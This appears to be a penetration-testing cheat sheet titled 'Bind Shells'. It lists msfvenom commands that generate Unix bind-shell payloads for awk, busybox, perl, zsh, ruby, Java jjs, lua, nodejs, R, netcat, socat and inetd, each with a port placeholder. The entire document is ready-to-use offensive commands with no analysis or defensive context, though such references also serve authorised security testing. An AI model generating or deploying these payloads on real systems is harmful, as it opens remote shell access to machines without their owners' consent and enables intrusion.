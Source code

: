 # Bind Shells

## Awk

`$ msfvenom -p cmd/unix/bind_awk lport=<PORT>`

## Busybox

`$ msfvenom -p cmd/unix/bind_busybox_telnetd lport=<PORT>`

## Perl

`$ msfvenom -p cmd/unix/bind_perl lport=<PORT>`

`$ msfvenom -p cmd/unix/bind_perl_ipv6 lport=<PORT>`

## Zsh

`$ msfvenom -p cmd/unix/bind_zsh lport=<PORT>`

## Ruby

`$ msfvenom -p cmd/unix/bind_ruby lport=<PORT>`

`$ msfvenom -p cmd/unix/bind_ruby_ipv6 lport=<PORT>`

## Java

`$ msfvenom -p cmd/unix/bind_jjs lport=<PORT>`

## Lua

`$ msfvenom -p cmd/unix/bind_lua lport=<PORT>`

## NodeJS

`$ msfvenom -p cmd/unix/bind_nodejs lport=<PORT>`

## R

`$ msfvenom -p cmd/unix/bind_r lport=<PORT>`

## Netcat

### OpenBSD Method

`$ msfvenom -p cmd/unix/bind_netcat lport=<PORT>`

### Traditional GNU Method

`$ msfvenom -p cmd/unix/bind_netcat_gaping lport=<PORT>`

`$ msfvenom -p cmd/unix/bind_netcat_gaping_ipv6 lport=<PORT>`

`$ msfvenom -p cmd/unix/pingback_bind lport=<PORT>`

## Socat

`$ msfvenom -p cmd/unix/bind_socat_udp lport=<PORT>`

## Telnet

`$ msfvenom -p cmd/unix/bind_inetd lport=<PORT>`
